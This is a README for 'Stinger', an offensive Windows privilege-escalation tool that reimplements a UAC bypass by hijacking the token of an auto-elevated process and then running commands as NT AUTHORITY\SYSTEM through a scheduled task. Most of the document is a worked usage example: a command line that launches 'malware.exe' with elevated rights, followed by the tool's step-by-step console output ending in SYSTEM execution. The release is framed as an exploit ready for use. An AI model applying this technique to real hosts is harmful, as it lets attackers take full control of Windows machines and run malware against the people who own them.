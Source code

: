 ﻿# Stinger

CIA Vault7 leak describes Stinger[0] as a Privilege Escalation module in the "Fine Dining" toolset. Stinger
is a "UAC bypass that obtains the token from an auto-elevated process, modifies it, and reuses it to 
execute as administrator". This is an implementation of Stinger, including debugging routines and some
additional tradecraft to obtain `NT AUTHORITY\SYSTEM` rights. The exploit works on Windows 7 through Windows 
10 to run privileged code through token hijacking of an autoelevated process (e.g. `Taskmgr.exe`) from 
a UAC restricted process. This technique to steal a privileged token and elevate a thread also works on 
Windows 11, however it is not possible to use it for CreateProcessWithLogonW which detects `BAD IMPERSONATION` 
or with CreateFile, Registry, Process, COM ITask*, Named Pipes etc as the operations fail with `ACESS_DENIED` 
or `E_BAD_IMPERSONATION`. This exploit closely resembles UAC Magic[1] and thus it is believed that Stinger is 
an implementation of UAC Magic based on the description and time which it was used within the CIA for modular 
malware in "Fine Dining". This is a tokenhijacking attack that bypasses UAC on Windows 7 -> Windows 10, and on 
Windows 11 gives only an elevated thread to further experiment with. This exploit leverages a COM object 
ITaskService from the privileged thread to run commands under `NT AUTHORITY\SYSTEM`. 

Here is an example of the UAC bypass being used on a vulnerable Windows 7 host. 

``` 
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\TestUser\Downloads>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

C:\Users\TestUser\Downloads>Stinger.exe taskmgr.exe cmd.exe /c c:\\Temp\\malware.exe
Show our process security context...
User: TestUser
Domain: TESTPC
User SID: S-1-5-21-3089230831-4110903467-601958294-1001
Checking token DACL...
Allowed ACE: GENERIC_ALL
Account: TESTPC\TestUser
SID: S-1-5-21-3089230831-4110903467-601958294-1001
Allowed ACE: GENERIC_ALL
Account: NT AUTHORITY\SYSTEM
SID: S-1-5-18
Allowed ACE: GENERIC_READ GENERIC_EXECUTE
LookupAccountSid failed: 1332
SID: S-1-5-5-0-107317
Token is not elevated.
Token is not restricted
Dumping token privileges...
[-] Disabled Privilege: SeShutdownPrivilege Attributes : 0
[+] Enabled Privilege: SeChangeNotifyPrivilege Attributes : 3
    This privilege is enabled by default.
[-] Disabled Privilege: SeUndockPrivilege Attributes : 0
[-] Disabled Privilege: SeIncreaseWorkingSetPrivilege Attributes : 0
[-] Disabled Privilege: SeTimeZonePrivilege Attributes : 0
Process ID: 3992
Successfully duplicated token
H4x0r1nG the token ...
Enabling privilege: SeIncreaseQuotaPrivilege
Enabling privilege: SeSecurityPrivilege
Enabling privilege: SeTakeOwnershipPrivilege
Enabling privilege: SeLoadDriverPrivilege
Enabling privilege: SeSystemProfilePrivilege
Enabling privilege: SeSystemtimePrivilege
Enabling privilege: SeProfileSingleProcessPrivilege
Enabling privilege: SeIncreaseBasePriorityPrivilege
Enabling privilege: SeCreatePagefilePrivilege
Enabling privilege: SeBackupPrivilege
Enabling privilege: SeRestorePrivilege
Enabling privilege: SeShutdownPrivilege
Enabling privilege: SeDebugPrivilege
Enabling privilege: SeSystemEnvironmentPrivilege
Enabling privilege: SeChangeNotifyPrivilege
Enabling privilege: SeRemoteShutdownPrivilege
Enabling privilege: SeUndockPrivilege
Enabling privilege: SeManageVolumePrivilege
Enabling privilege: SeImpersonatePrivilege
Enabling privilege: SeCreateGlobalPrivilege
Enabling privilege: SeIncreaseWorkingSetPrivilege
Enabling privilege: SeTimeZonePrivilege
Enabling privilege: SeCreateSymbolicLinkPrivilege
Dropping IL...
Initialized medium IL SID
Token lowered to medium integrity
COM init...
Attemping to bypass UAC with the token...
ImpersonateLoggedOnUser succeeded..
User: TestUser
Domain: TESTPC
User SID: S-1-5-21-3089230831-4110903467-601958294-1001
Checking token DACL...
Allowed ACE: GENERIC_ALL
Account: BUILTIN\Administrators
SID: S-1-5-32-544
Allowed ACE: GENERIC_ALL
Account: NT AUTHORITY\SYSTEM
SID: S-1-5-18
Allowed ACE: GENERIC_READ GENERIC_EXECUTE
LookupAccountSid failed: 1332
SID: S-1-5-5-0-107317
Token is elevated!
Token is not restricted
Dumping token privileges...
[+] Enabled Privilege: SeIncreaseQuotaPrivilege Attributes : 2
[+] Enabled Privilege: SeSecurityPrivilege Attributes : 2
[-] Disabled Privilege: SeTakeOwnershipPrivilege Attributes : 0
[-] Disabled Privilege: SeLoadDriverPrivilege Attributes : 0
[+] Enabled Privilege: SeSystemProfilePrivilege Attributes : 2
[+] Enabled Privilege: SeSystemtimePrivilege Attributes : 2
[+] Enabled Privilege: SeProfileSingleProcessPrivilege Attributes : 2
[+] Enabled Privilege: SeIncreaseBasePriorityPrivilege Attributes : 2
[+] Enabled Privilege: SeCreatePagefilePrivilege Attributes : 2
[-] Disabled Privilege: SeBackupPrivilege Attributes : 0
[-] Disabled Privilege: SeRestorePrivilege Attributes : 0
[+] Enabled Privilege: SeShutdownPrivilege Attributes : 2
[-] Disabled Privilege: SeDebugPrivilege Attributes : 0
[+] Enabled Privilege: SeSystemEnvironmentPrivilege Attributes : 2
[+] Enabled Privilege: SeChangeNotifyPrivilege Attributes : 3
    This privilege is enabled by default.
[+] Enabled Privilege: SeRemoteShutdownPrivilege Attributes : 2
[+] Enabled Privilege: SeUndockPrivilege Attributes : 2
[+] Enabled Privilege: SeManageVolumePrivilege Attributes : 2
[-] Disabled Privilege: SeImpersonatePrivilege Attributes : 0
[+] Enabled Privilege: SeCreateGlobalPrivilege Attributes : 3
    This privilege is enabled by default.
[+] Enabled Privilege: SeIncreaseWorkingSetPrivilege Attributes : 2
[+] Enabled Privilege: SeTimeZonePrivilege Attributes : 2
[+] Enabled Privilege: SeCreateSymbolicLinkPrivilege Attributes : 2
Attemping to run command as NT AUTHORITY\SYSTEM via COM...
Created ITaskService..
Connected to ITaskService..
Registering the evil Task..
Task created successfully.
Executed command as NT AUTHORITY\SYSTEM... wait for cleanup
Task deleted successfully. 
```

Your commands have executed under `NT AUTHORITY\SYSTEM`. Happy New Year!

## References

* [0]: [Fine Dining Tool Module List, Vault 7, Wikileaks](https://wikileaks.org/ciav7p1/cms/page_20251107.html).
* [1]: [Reading your way around UAC, James Forshaw](https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-1.html).

## License

These files are available under a Attribution-NonCommercial-NoDerivatives 4.0 International license.
